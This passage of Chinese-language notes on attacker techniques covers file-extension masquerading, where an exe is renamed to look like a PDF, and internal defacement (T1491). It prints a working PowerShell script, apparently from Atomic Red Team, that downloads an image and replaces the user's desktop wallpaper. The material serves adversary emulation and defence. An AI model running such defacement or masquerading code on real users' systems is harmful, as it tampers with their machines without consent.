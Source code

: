 - 更改默认文件关联，如 `Note .exe`，但是图标显示为 word 图标 
- 文件格式伪装，如 `GraphicalNeutrino` 的 zip 文件解压后 `november_schedul___fdp.exe` 被 重命名为`ovember_schedulexe.pdf`，但是实际仍为exe文件

---

## T1491 Defacement - 篡改

### Internal Defacement - 内部篡改

攻击者可能会破坏组织内部的系统，试图恐吓或误导用户，从而损害系统的完整性。这可能 采取修改内部网站的形式，或者直接修改用户系统并更换桌面壁纸。通常发生在其他入侵目 标完成之后

---

#### 替换桌面壁纸

如下代码实现了备份原始壁纸并替换为新壁纸的功能:

```powershell
$url = "https://redcanary.com/wp-content/uploads/Atomic-Red-Team-Logo.png"
$imgLocation = "$env:TEMP\T1491.001-newWallpaper.png"
$orgWallpaper = (Get-ItemProperty -Path Registry::'HKEY_CURRENT_USER\Control Panel\Desktop\' -Name WallPaper).WallPaper
$orgWallpaper | Out-File -FilePath "$env:TEMP\T1491.001-OrginalWallpaperLocation"
$updateWallpapercode = @' 
using System.Runtime.InteropServices; 
namespace Win32{

    public class Wallpaper{ 
        [DllImport("user32.dll", CharSet=CharSet.Auto)] 
          static extern int SystemParametersInfo (int uAction , int uParam , string lpvParam , int fuWinIni) ; 
          
          public static void SetWallpaper(string thePath){ 
            SystemParametersInfo(20,0,thePath,3); 
        }
    }
} 
'@
$wc = New-Object System.Net.WebClient  
try{  
    $wc.DownloadFile($url, $imgLocation)
    add-type $updateWallpapercode 
    [Win32.Wallpaper]::SetWallpaper($imgLocation)
} 
catch [System.Net.WebException]{  
    Write-Host("Cannot download $url") 
    add-type $updateWallpapercode 
    [Win32.Wallpaper]::SetWallpaper($imgLocation)
} 
finally{    
    $wc.Dispose()  
}
```
